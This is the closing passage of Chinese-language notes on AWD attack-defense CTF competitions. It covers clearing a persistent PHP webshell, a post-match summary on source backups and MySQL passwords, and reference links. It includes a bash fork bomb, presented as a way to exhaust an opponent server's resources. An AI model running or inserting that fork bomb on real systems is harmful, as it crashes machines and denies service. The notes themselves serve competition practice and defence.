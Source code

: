 ### 清除

- 创建一个和不死马生成的马一样名字的文件夹。

- ps auxww|grep shell.php 找到pid后杀掉进程就可以，你删掉脚本是起不了作用的，因为php执行的时候已经把脚本读进去解释成opcode运行了

- 重启php等web服务

```bash
service php-fpm restart
```

- 用一个ignore_user_abort(true)脚本，一直竞争写入（断断续续）。usleep要低于对方不死马设置的值。


## fork炸弹

耗尽目标服务器资源

```bash
:() { :|: & };:
```


## 赛后总结

### 源码备份

源码一定要备份审计，多次备份时不要覆盖之前的源码，删错代码把自己玩死肠子都悔青了

### mysql

如果是cms框架，修改mysql密码时，默认密码可能在cms框架配置文件中

参考、致谢：

- [AWD 总结&分析](https://www.cnblogs.com/murkuo/p/14961598.html)

- [awd比赛笔记](https://blog.csdn.net/q2412322029/article/details/131264732)

- [从零学习AWD比赛指导手册](https://blog.zgsec.cn/archives/484.html)

- [AWD 赛前准备](https://justloseit.top/AWD%20%E8%B5%9B%E5%89%8D%E5%87%86%E5%A4%87/)